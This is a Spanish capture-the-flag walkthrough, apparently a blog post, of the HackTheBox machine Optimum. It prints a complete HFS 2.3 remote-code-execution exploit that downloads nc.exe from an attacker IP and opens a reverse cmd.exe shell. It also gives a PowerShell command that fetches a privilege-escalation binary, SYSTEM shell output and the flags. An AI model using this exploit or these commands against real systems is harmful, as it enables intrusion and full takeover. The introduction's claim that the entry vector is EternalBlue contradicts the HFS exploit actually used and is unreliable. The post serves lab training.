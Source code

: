 ```yaml
---
layout: post
title: Optimum - Walkthrough
date: 2020-08-21 20:44
description: EternalOptimum se hace presente para romper esta máquina que da ciertas complicaciones pero es fácil.
toc: true
comments: false
tags: 
 - OSCP
 - Walkthrough
 - HackTheBox

---
```


## **Walkthrough de Optimum**
---

![img]({{ '/assets/images/Optimum/Optimum_00.png' | relative_url }}){: .center-image }*(Descripción)*

---
Esta máquina es muy parecida a Legacy desde el punto de vista que el vector de ingreso es una vulnerabilidad muy conocida llamada EternalBlue o MS17-010. Usando Metasploit es fácil aunque hay que correr el exploit varias veces hasta que funcione, las cosas se complican un poco para explotarla de forma manual pero después de un par de horas de investigación sale andando.

---

## **Links**
 Optimum en Hack The Box](https://www.hackthebox.eu/home/machines/profile/6)



## **Reconocimiento**
---

>**``nmap -A -T4 -p 80 10.10.10.8 -oA Optimum``**

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 20:42 -03
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|7|2008|2016|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   240.01 ms 10.10.14.1
2   240.07 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

Solamente un servicio disponible, HTTP. `Nikto` y `Dirb` no sirven de mucho. Al entrar al sitio con un browser e igual que como dice `nmap` existe la aplicación llamada **HttpFileServer 2.3**

---

![img]({{ '/assets/images/Optimum/Optimum_01.png' | relative_url }}){: .center-image }*(HFS)*

---

Una búsqueda rápida en **Searchsploit** revela lo siguiente:

```console
searchsploit hfs 2.3
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                 | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                 | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                            | windows/webapps/34852.txt
---------------------------------------------------------------------------------------------------- ---------------------------------
```
Por suerte no hay muchas opciones, yo voy por la del script de Python (39161).

```python
import urllib2
import sys

try:
        def script_create():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

        def execute_script():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

        def nc_run():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

        ip_addr = "10.10.14.23" #local IP address
        local_port = "4444" # Local Port number
        vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
        save= "save|" + vbs
        vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
        exe= "exec|"+vbs2
        vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
        exe1= "exec|"+vbs3
        script_create()
        execute_script()
        nc_run()
except:
        print """[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script"""
```

Entonces, el script se va a conectar a la máquina atacada, copiar `nc.exe` y generar una conexión reversa al socket que nosotros le configuremos.

1. Modificar el script con la IP y el puerto donde va a estar escuchando nuestro nc.
2. Copiar `nc.exe` a la misma carpeta donde se va a correr el script.
3. Poner a `nc` a escuchar.

Posiblemente haya que correr el exploit un par de veces hasta que funcione pero después de eso tenemos shell reversa para todos.

En este caso **winPEAS** no fue de mucha ayuda. Finalmente el exploit que va a permitir escalar privilegios  es [MS16-098](https://www.exploit-db.com/exploits/41020). Según se detalla, es para Windows 8 pero en la máquina a atacar que es un Windows 2012 también puede funcionar.

No hace falta compilar el exploit, dentro de los comentarios se pasa una [URL](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe) para descargarlo:

Copado, tengo el exploit pero ¿Cómo se copia a la máquina atacada?

Una a favor es que podemos correr **PowerShell** que trae un cmdlet que permite hacer descargas. El comando a ejecutar es el siguiente (previamente se levanta un servidor web en la máquina atacante):

> ``powershell -c Invoke-WebRequest -Uri "http://10.10.14.23:80/41020.exe" -OutFile "privesc.exe"``

```console
C:\Users\kostas\Desktop>privesc.exe
privesc.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
---

Una vez que se corre se puede ver que el usuario ya es ``System``.


## **Flags**
---

A por los flags!

```console
C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```


---